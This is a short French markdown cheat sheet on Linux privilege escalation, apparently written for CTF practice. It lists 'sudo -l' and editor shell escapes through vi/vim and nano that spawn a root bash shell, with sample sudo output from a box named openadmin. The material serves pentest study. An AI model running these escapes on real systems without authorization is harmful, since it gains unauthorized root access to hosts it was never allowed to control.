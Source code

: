 # Escalation de privilège

* **Afficher les commandes exécutables en sudo**
```
sudo -l
```

* **Escalation de privilège depuis vi/vim**
```
sudo /file/file.conf
:!/bin/bash
```

* **Escalation de privilège depuis nano**
D'abord faire un ```sudo -l```, qui renvoie le résultat suivant :
```
User joanna may run the following commands on openadmin:
(ALL) NOPASSWD: /bin/nano /opt/priv
```
Possibilité d'utiliser nano pour escalation de privilège en faisant :
```
sudo nano /opt/priv
ctrl + R
ctrl + X
reset; bash 1>&0 2>&0
```